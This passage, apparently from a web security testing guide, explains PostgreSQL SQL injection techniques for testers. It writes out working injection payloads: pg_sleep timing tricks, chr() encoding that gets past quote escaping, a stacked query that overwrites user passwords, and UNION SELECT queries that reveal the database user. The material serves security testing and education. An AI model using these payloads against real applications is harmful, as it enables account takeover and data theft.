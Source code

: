 Starting at version 8.2, PostgreSQL introduced a built-in function, *pg_sleep(n)*, to make the current
session process sleep for *n* seconds. This function can be leveraged to execute timing attacks (discussed in detail at [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection)).


In addition, you can easily create a custom *pg_sleep(n)* in previous versions by using libc:
* `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`


#### Single Quote unescape

Strings can be encoded, to prevent single quotes escaping, by using chr() function.

* chr(n): Returns the character whose ASCII value corresponds to the number n
* ascii(n): Returns the ASCII value which corresponds to the character n


Let's say you want to encode the string 'root':
```
   select ascii('r')
   114
   select ascii('o')
   111
   select ascii('t')
   116
```

We can encode 'root' as:
```
  chr(114)||chr(111)||chr(111)||chr(116)
```

**Example:**
```
   http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--
```

#### Attack Vectors

##### Current User

The identity of the current user can be retrieved with the following SQL SELECT statements:
```
  SELECT user
  SELECT current_user
  SELECT session_user
  SELECT usename FROM pg_user
  SELECT getpgusername()
```

**Examples:**
```
  http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
  http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

##### Current Database
